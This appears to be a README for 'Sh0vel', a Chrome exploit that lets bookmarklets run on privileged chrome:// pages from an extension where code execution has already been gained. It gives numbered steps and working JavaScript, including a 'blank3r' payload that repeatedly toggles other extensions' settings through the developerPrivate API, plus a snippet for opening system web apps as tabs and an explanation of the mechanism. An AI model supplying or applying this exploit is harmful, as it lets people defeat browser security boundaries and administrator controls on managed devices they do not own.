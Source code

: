 ![Sh0vel logo](/oie_i9TLE9czG77X.jpg)
#Sh0vel
Sh0vel is an exploit letting bookmarklets run on almost any url, most notably chrome urls, allowing you to access permissions like developerPrivate or settingsPrivate from within an extension.

#Steps:
- Step 1: Get code execution in an extension. This can be by point-blank, skiovox breakout (preferably), XSS, DNS spoofing, or some other wacky way, but you need code execution in the extension.

- Step 2: Verify it has the correct permissions. For this to work, the following permissions are needed:
    - tabs
    - activeTab
    - browserAction
    - 'unsafe-eval' set in the CSP

If it does not have these permissions, this will not work.
- Step 3: Enable the flag "#extensions-on-chrome-urls"
- Step 4: Get a bookmarklet. This is fairly straight-forward. I'll use blank3r as an example.
- Step 5: Place the bookmarklet as follows:
chrome.browserAction.onClicked.addListener(() => {chrome.tabs.executeScript(null, {code: `location.href="javascript:replace this part with your own bookmarklet.";`});});

Make the extension run that code.
If you wanted to use blank3r, you would use this code:

chrome.browserAction.onClicked.addListener(() => {chrome.tabs.executeScript(null, {code: `let link=window.open('about:blank','_blank');link.location.href="javascript:let shim = false;var ids = prompt('extension ids (comma separated)').split(',');setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 250);";`});});

- Step 6: Open the url you want this code to run on. For blank3r, open chrome://extensions.
If you want to run code on an SWA (e.g. chrome://os-settings), you will need to open it as
a normal tab. This can be accomplished with the code below (thank you Writable):
chrome.tabs.create({}, () => {chrome.tabs.update(null, {url: "chrome://file-manager"});});

and you can replace chrome://file-manager with the SWA of your choosing.

- Step 7: Click the extension icon. If done correctly, your bookmarklet will run!

#Credits:
Writable for helping me open SWAs as a normal tab
Me for the finding the original API access exploit
The rest of whelement: mental support while I struggled with random things


#Explanation: 
We can enable the extensions-on-chrome-urls flag to allow code to run as content scripts
on chrome urls, but tabs.executeScript runs without access to some variables in the page it
runs in, notably the chrome object. However, if the extension that invoked tabs.executeScript
has access to use eval, it also has a small side effect: letting us use javascript: urls.
By using an automated version of the point-blank exploit, we can use a javascript bookmarklet
on a chrome url, and for some reason, it runs with access to the chrome object for its opener.
A lot of new things are possible with this, such as spawning webviews from the file manager , 
using blank3r on the latest version, and more.

Aside from trying to run code on chrome urls, it's possible to use normal bookmarklets this way
to launch applications like eruda into pages without it being run as a content script. 

